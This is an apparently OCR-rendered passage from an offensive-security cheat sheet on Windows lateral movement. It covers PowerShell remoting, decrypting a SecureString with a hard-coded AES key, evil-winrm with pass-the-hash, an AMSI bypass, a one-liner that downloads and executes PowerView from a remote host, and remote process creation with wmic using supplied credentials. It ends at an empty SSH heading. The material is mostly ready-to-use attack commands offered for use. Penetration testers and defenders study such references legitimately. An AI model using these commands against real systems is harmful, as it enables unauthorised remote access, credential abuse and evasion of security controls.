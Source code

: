* Interact with a PS Session

    ```powershell
    PS> Enter-PSSession -computerName DC01
    [DC01]: PS>

    # one-to-one execute scripts and commands
    PS> $Session = New-PSSession -ComputerName CLIENT1
    PS> Invoke-Command -Session $Session -scriptBlock { $test = 1 }
    PS> Invoke-Command -Session $Session -scriptBlock { $test }
    1
    ```

### Powershell Secure String

```ps1
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```

## WinRM Protocol

**Requirements**:

* Port **5985** or **5986** open.
* Default endpoint is **/wsman**

If WinRM is disabled on the system you can enable it using: `winrm quickconfig`

The easiest way to interact over WinRM on Linux is with [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```powershell
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 10.0.0.20 -u username -H HASH
evil-winrm -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```

## WMI Protocol

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```

## SSH Protocol
